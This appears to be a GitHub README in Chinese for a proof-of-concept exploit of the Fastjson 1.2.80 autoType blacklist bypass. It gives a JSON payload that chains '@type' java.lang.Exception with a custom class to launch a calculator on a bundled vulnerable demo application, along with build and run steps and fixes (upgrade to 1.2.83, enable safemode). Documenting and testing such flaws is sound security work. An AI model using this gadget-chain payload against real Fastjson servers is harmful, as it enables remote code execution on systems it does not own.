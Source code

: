 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package`  ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload ，如果弹出计算器则利用成功
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 卸载计算器 😂🤣
3. 开启safemode
   1. 开启方法如下  

![](images/safemode.png)


### 注意点
1. 自行编译源码，需要确认springboot 启动类中的safemode 开关是否打开，关闭之后可以正常复现
2. 直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar) 不受影响